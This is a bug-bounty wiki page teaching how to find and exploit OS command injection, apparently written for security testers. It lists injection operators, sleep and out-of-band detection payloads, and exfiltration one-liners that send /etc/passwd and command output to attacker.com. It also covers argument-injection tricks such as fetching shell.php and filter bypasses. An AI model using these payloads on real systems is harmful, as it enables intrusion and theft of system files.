

> Source: https://bugbounty.info/Attack-Surface/Web/Injection/Command-Injection

# Command Injection

Command injection happens when user input gets concatenated into an OS command that the server executes. It's conceptually simple  -  you're escaping the intended command context and appending your own  -  but it shows up in surprising places. Any feature that interacts with the OS (file operations, PDF generation, image processing, network diagnostics, git operations) is a candidate. The payoff is direct RCE.

## How Command Injection Works



## Injection Operators

Different shells support different command separators. Test all of them  -  the backend might be Linux, Windows, or either:

### Linux/Unix

```text
;         Command separator  -  runs both commands sequentially
|         Pipe  -  feeds output of first into second (second always runs)
||        OR  -  runs second only if first fails
&         Background  -  runs first in background, second immediately
&&        AND  -  runs second only if first succeeds
$(cmd)    Command substitution  -  executes cmd, inserts output
`cmd`     Backtick substitution  -  same as $()
\n        Newline  -  sometimes works as separator (%0a URL-encoded)
```

### Windows

```text
&         Runs both commands
&&        Runs second if first succeeds
|         Pipe
||        Runs second if first fails
```

## Common Vulnerable Sinks

These application features frequently shell out to OS commands:

| Feature | Typical Command | Injection Point |
| --- | --- | --- |
| Image processing | `convert`, `ffmpeg`, `exiftool` | Filename, parameters |
| PDF generation | `wkhtmltopdf`, `phantomjs` | URL, HTML content |
| File operations | `tar`, `zip`, `unzip`, `mv`, `cp` | Filename, path |
| Network tools | `ping`, `traceroute`, `nslookup`, `dig` | Hostname, IP |
| Git operations | `git clone`, `git log` | Repo URL, branch name |
| Package managers | `npm install`, `pip install` | Package name |
| CI/CD pipelines | `docker build`, `kubectl` | Build args, image names |
| Email | `sendmail`, `mail` | Recipient, subject |
| DNS lookups | `host`, `nslookup` | Domain name |

## Practical Testing Flow

### Step 1: Identify Potential Injection Points

Any parameter that looks like it could be used in a system command  -  filenames, hostnames, IP addresses, URLs, usernames passed to system utilities.

```http
POST /api/network/ping HTTP/1.1
Host: target.com
Content-Type: application/json
 
{"host": "8.8.8.8"}
```

### Step 2: Test with Time-Based Detection

Sleep-based payloads confirm injection without needing to see output:

```http
POST /api/network/ping HTTP/1.1
Host: target.com
Content-Type: application/json
 
{"host": "8.8.8.8; sleep 10"}
```

If the response takes ~10 seconds longer than normal, injection is confirmed. Test variants:

```text
8.8.8.8; sleep 10
8.8.8.8 | sleep 10
8.8.8.8 & sleep 10
8.8.8.8 && sleep 10
8.8.8.8 || sleep 10
$(sleep 10)
`sleep 10`
8.8.8.8%0asleep 10
```

### Step 3: Out-of-Band Detection

When you can't observe timing differences (async processing, queued jobs):

```text
; nslookup cmdi-test.burpcollaborator.net
| curl http://cmdi-test.burpcollaborator.net
$(wget http://cmdi-test.burpcollaborator.net)
`dig cmdi-test.burpcollaborator.net`
```

### Step 4: Data Exfiltration

Once confirmed, extract output:

```bash
# DNS exfil  -  works when HTTP is blocked
; x=$(whoami); nslookup $x.attacker.com
; nslookup $(cat /etc/hostname).attacker.com
 
# HTTP exfil
; curl https://attacker.com/collect?data=$(id|base64)
; wget https://attacker.com/collect --post-data="$(cat /etc/passwd)"
```

## Argument Injection

Even when the application doesn't concatenate input into a shell command string (so `;` and `|` don't work), you may be able to inject additional arguments if user input is passed as a command argument:

```text
# Application runs: tar -cf backup.tar <user_input>
# Inject: --checkpoint=1 --checkpoint-action=exec=id
# Result: tar -cf backup.tar --checkpoint=1 --checkpoint-action=exec=id
 
# Application runs: git log <user_input>
# Inject: --output=/tmp/pwned -p
# Result: git log --output=/tmp/pwned -p
 
# Application runs: curl <user_input>
# Inject: -o /tmp/shell.php http://attacker.com/shell.php
# Result: curl -o /tmp/shell.php http://attacker.com/shell.php
```

Key argument injection targets: `tar`, `git`, `curl`, `wget`, `find`, `rsync`, `zip`, `ssh`.

## Filter Bypass Techniques

When basic operators are filtered:

```bash
# Space filtering  -  use alternatives
cat</etc/passwd
{cat,/etc/passwd}
cat${IFS}/etc/passwd
X=$'\x20';cat${X}/etc/passwd
 
# Keyword filtering (e.g., "cat" is blocked)
c'a't /etc/passwd
c""at /etc/passwd
c\at /etc/passwd
/bin/ca? /etc/passwd
$(printf '\x63\x61\x74') /etc/passwd
 
# Slash filtering
$(tr '!' '/' <<< '!etc!passwd')
 
# Using environment variables
${PATH:0:1}  # gives /
${HOME:0:1}  # gives /
 
# Base64 bypass
echo YWlk | base64 -d | sh    # executes 'id' (base64 of 'aid' is wrong  -  use 'aWQ=')
echo aWQ= | base64 -d | sh    # executes 'id'
```

## Distinction from Related Vulnerabilities

| Vulnerability | You're injecting into... | Example |
| --- | --- | --- |
| Command Injection | OS shell command | `ping 8.8.8.8; id` |
| Code Injection | Language interpreter (eval) | `1+1; system('id')` |
| SSTI | Template engine | `{{7*7}}` / `${7*7}` |
| SQLi | SQL query | `' OR 1=1--` |

If the backend uses `eval()`, `exec()` (Python), or similar  -  that's code injection, not command injection. The testing approach differs.

## Checklist

- Map all parameters that could be passed to system commands (filenames, hostnames, IPs, URLs)
- Test each injection operator: `;`, `|`, `||`, `&`, `&&`, `$()`, backticks, `%0a`
- Use sleep-based payloads for blind detection
- Use DNS/HTTP out-of-band callbacks for async endpoints
- Test argument injection on parameters used as command arguments
- Test filter bypass: space alternatives, string concatenation, encoding
- Check both Linux and Windows payloads  -  you may not know the backend OS
- For image/PDF/file features: test filename injection and metadata injection
- Verify by exfiltrating command output via DNS or HTTP

## Public Reports

- OS command injection in image processing on Shopify - [HackerOne #1019019](https://hackerone.com/reports/1019019)
- Command injection via filename in file upload on GitLab - [HackerOne #1154542](https://hackerone.com/reports/1154542)
- Argument injection in git operations on GitHub Enterprise - [HackerOne #1125425](https://hackerone.com/reports/1125425)
- Blind command injection in PDF generator - [HackerOne #1415253](https://hackerone.com/reports/1415253)
- Command injection via EXIF data in image processing pipeline - [HackerOne #1154892](https://hackerone.com/reports/1154892)

## See Also

- [SSRF](../../../Attack-Surface/Web/SSRF/)
- [Path Traversal](../../../Attack-Surface/Web/File-Operations/Path-Traversal)
- [Server-Side Template Injection](../../../Attack-Surface/Web/Injection/SSTI)
- [Deserialization](../../../Attack-Surface/Web/Injection/Deserialization)
